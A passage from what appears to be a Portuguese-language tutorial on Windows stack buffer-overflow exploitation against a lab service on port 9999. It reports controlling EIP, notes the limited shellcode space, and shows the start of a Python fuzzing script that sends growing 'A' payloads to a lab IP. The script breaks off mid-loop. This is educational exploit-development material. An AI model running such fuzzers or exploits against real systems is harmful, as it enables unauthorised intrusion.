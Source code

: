 ![Enumaração do comando.](/img/std/winbof/winbof-24.png)

Novamente conseguimos sobrescrever o EIP com “41414141”, o que é ótimo, pois conseguimos controlar o endereço da próxima execução após o overflow.

Mas se seguirmos o dump do ESP, podemos ver que temos apenas 20 bytes para inserir nosso shellcode, o que é praticamente impossível uma vez que ele ocupa aproximadamente 350 bytes.

Teremos que usar uma técnica diferente para conseguirmos nossa shell.

Isso também mostra que talvez nem precisemos de todos os 5060 bytes que nosso fuzzing encontrou, vamos criar nosso próprio script para encontrar um fuzzing mais próximo.

fuzzing.py:

```python
#!/usr/bin/python3

import socket
from time import sleep
import sys

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

payload = b"GTER /.:/" # funcao inicial
payload += b"A" * 100 # quantidade inicial de bytes 

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip,porta))
        s.send(payload + b"\r\n")
        s.recv(1024)
```
